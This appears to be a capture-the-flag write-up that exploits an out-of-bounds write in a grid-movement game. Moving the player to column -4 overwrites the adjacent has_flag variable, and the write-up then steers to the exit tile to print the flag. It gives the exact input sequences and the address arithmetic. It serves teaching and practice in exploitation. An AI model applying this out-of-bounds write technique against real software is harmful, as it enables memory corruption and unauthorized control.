 ### Attack Plan

1. **Set write value:** Use 'l' command to set `player_tile` to non-zero byte ('A')
2. **Navigate to (0, -4):** Trigger out-of-bounds write to `has_flag`
3. **Navigate to (29, 89):** Reach the exit tile
4. **Trigger win condition:** Both conditions met → `win()` called → flag printed

---

## Exploitation Strategy

### Step-by-Step Attack

**Initial State:**
- Player at (4, 4)
- `has_flag` = 0
- `player_tile` = '@' (default)

**Stage 1: Set player_tile**
```
Command: 'l' + 'A'
Result: player_tile = 'A' (0x41)
```

**Stage 2: Move to row 0**
```
Command: 'wwww' (4 times up)
Result: row changes 4 → 3 → 2 → 1 → 0
```

**Stage 3: Move to col -4 (THE EXPLOIT)**
```
Command: 'aaaaaaaa' (8 times left)
Result: col changes 4 → 3 → 2 → 1 → 0 → -1 → -2 → -3 → -4

During the final 'a' move (col: -3 → -4):
    write_address = map_base + (0 * 90) + (-4)
    write_address = map_base - 4
    write_address = &has_flag
    *write_address = 'A'
    
Result: has_flag = 0x41 ✓
```

**Stage 4: Navigate to exit**
```
Command: 'sssssssssssssssssssssssssssss' (29 times down)
Result: row changes 0 → 1 → 2 → ... → 29

Command: 'ddddd...' (93 times right)
Result: col changes -4 → -3 → -2 → ... → 89
```

**Stage 5: Win condition triggers**
```c
if (row == 29 && col == 89) {        // TRUE ✓
    puts("You win!");
    if (has_flag != 0) {              // TRUE (has_flag = 'A') ✓
        puts("flage");
        win();                        // FLAG PRINTED
    }
}
```
